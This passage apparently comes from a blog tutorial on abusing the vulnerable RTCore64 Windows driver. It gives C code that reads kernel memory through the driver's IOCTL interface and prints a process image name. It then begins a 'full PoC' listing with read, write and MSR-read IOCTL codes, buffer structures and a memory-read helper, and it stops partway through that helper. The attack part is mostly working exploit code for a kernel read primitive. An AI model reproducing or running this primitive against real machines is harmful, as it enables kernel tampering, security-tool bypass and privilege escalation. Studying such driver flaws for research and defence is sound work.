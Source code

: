 ```c
	DWORD64 SystemImageFileNameValue = ReadMemoryDWORD64(RTCORE_DEVICE, SystemImageFileNameAddress);
	printf("[INFO] 0x%016llx: \"%s\"\n", SystemImageFileNameAddress, PrintQwordPtrAsString(SystemImageFileNameValue));

	CloseHandle(RTCORE_DEVICE);

	return 0;
}
```

which gives us the following output:

![figure-11](/assets/img/drivers-1/figure-11.png){:style="display:block; margin-left:auto; margin-right:auto"}

Excellent! We've successfully leveraged our read primitive!

Here is the **full** PoC code:

```c
#include <Windows.h>
#include <stdint.h>
#include <stdio.h>

static const DWORD RTCORE_READ_IOCTL = 0x80002048;
static const DWORD RTCORE_WRITE_IOCTL = 0x8000204c;
static const DWORD RTCORE_READMSR_IOCTL = 0x80002030;
static const wchar_t* DEVICE_NAME = L"\\\\.\\RTCore64";
static const DWORD LSTAR_MSR = 0xc0000082;

typedef struct RTCORE_MSR_READ {
	DWORD Register;
	DWORD ValueHigh;
	DWORD ValueLow;
} RTCORE_MSR_READ;

typedef struct RTCORE64_BUFFER
{
	BYTE Pad0[8];
	DWORD64 Address;
	BYTE Pad1[8];
	DWORD ReadSize;
	DWORD Value;
	BYTE Pad3[16];
} RTCORE64_BUFFER;

DWORD ReadMemoryWORD(HANDLE hDevice, DWORD64 Address) {
	RTCORE64_BUFFER MemRead = { 0 };
	MemRead.Address = Address;
	MemRead.ReadSize = 2;
	
	DWORD BytesReturned;
```